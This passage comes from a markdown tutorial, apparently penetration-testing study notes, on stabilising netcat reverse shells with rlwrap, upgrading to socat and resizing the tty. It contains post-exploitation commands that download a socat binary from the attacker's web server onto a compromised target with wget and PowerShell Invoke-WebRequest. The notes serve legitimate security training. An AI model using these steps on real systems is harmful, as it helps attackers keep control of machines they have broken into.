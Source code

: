 Prepending our netcat listener with `rlwrap` gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

**However, I can not get this working on my Kali box. And I have no clue why. That's why I don't like this technique and prefer technique 1.**

#### Technique 3 with Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

## Change the terminal tty size

With any of the above techniques, it's useful to be able to change your terminal `tty` size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![alt text](images/change-terminal-tty-size.png "Reverse Shell Stabilisation Screenshot")

Next, in your reverse/bind shell, type in:

    stty rows <number>

and

    stty cols <number>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

### Other thing

`rlwrap` is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use `Ctrl + C` inside the shell. rlwrap is not installed by default on Kali, so first install it with sudo apt install rlwrap
